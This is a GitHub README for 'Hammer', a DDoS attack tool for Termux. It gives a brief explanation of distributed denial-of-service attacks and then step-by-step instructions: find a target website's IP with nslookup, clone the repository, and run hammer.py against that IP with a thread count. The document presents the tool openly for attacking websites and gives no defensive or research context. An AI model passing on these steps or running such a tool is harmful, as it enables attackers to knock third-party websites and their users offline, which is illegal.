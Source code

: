 # Hammer
Ddos attack tool for termux
*What is ddos attack*
That is what a Distributed Denial of Service (DDoS) attack is—a method where cybercriminals flood a network with so much traffic that it cannot operate or communicate as it normally would. ... All it takes to create a DDoS attack are two devices that coordinate to send fake traffic to a server or website. That's it.

# What are ddos attack used for
Distributed denial of service (DDoS) attacks are a subclass of denial of service (DoS) attacks. A DDoS attack involves multiple connected online devices, collectively known as a botnet, which are used to overwhelm a target website with fake traffic.

# ddos attack tool
*Hammer*

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
> cd Hammer

> python hammer.py -s [ip Address] -t 135
example:

> python hammer.py -s 123.45.67.89 -t 135

# hammer
<img src="https://github.com/TermuxHackz/Hammer/blob/master/1607798352443.png" width="200px" height="200px"/>

# Installation
```pkg update && pkg upgrade

git clone https://github.com/TermuxHackz/Hammer

cd Hammer

python hammer.py
```
# Usage:
> python hammer.py -s [IP address] -t 135

example: python hammer.py -s 127.0.0.1 -t 135

=============================
